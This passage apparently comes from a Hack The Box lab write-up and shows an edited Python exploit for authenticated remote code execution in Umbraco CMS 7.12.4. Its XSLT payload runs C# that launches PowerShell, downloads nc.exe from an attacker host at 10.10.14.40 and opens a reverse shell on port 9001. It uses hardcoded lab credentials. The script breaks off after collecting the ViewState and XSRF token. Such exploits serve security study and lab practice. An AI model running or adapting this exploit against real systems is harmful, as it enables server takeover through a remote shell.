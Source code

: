 
The full script after editing looks like this
~~~
# Exploit Title: Umbraco CMS - Remote Code Execution by authenticated administrators
# Dork: N/A                                      
# Date: 2019-01-13                                                                                                   
# Exploit Author: Gregory DRAPERI & Hugo BOUTINON
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases                                                                                                                                                                                 # Version: 7.12.4
# Category: Webapps
# Tested on: Windows IIS    
# CVE: N/A                                      

                                                          
import requests;
from bs4 import BeautifulSoup;

def print_dict(dico):
    print(dico.items());
    
print("Start");

# Execute a calc for the PoC
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "mkdir /tmp;iwr -uri http://10.10.14.40/nc.exe -outfile /tmp/nc.exe;/tmp/nc.exe 10.10.14.40 9001 -e powershell"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "admin@htb.local";
password="baconandcheese";
host = "http://remote.htb/";

# Step 1 - Get Main page
s = requests.session()
url_main =host+"/umbraco/";
r1 = s.get(url_main);
print_dict(r1.cookies);

# Step 2 - Process Login
url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";
loginfo = {"username":login,"password":password};
r2 = s.post(url_login,json=loginfo);

# Step 3 - Go to vulnerable web page
url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";
r3 = s.get(url_xslt);

soup = BeautifulSoup(r3.text, 'html.parser');
VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];
headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};
~~~